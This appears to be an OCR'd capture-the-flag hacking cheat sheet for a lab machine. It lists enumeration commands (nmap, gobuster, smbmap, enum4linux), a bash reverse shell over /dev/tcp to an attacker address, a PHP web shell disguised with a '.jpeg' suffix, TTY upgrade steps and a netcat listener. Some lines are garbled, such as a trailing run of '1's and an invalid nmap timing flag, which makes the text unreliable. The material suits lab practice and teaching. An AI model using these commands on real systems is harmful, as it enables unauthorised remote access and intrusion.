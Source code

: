 # We are going to do basic of Hacking

ip = 10.10.207.48

youtube: <https://www.youtube.com/watch?v=B9wue1PrdeM>(View Walkthrough)

## Directory Hosting

python -m http.server 4444 --bind 0.0.0.0111111111111111111111111111111111

## Enumeration

1. nmap -sC -sV -T100 10.10.207.48
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

===============================================

1. gobuster dir -u 10.10.207.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
2. smbmap -H 10.10.207.48
3. enum4linux -a 10.10.207.48


## reverse shell

1. bash -c "bash -i >& /dev/tcp/10.10.14.161/443 0>&1"
2. Adding Rev Shell from Dir

[<http://10.6.39.83/shell.php#.jpeg>](http://10.6.39.83:8888/shell.php#.jpeg)

pty enable
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo
fg
export TERM=xterm

## Listening on port

1. rlwrap nc -nlvp 4444

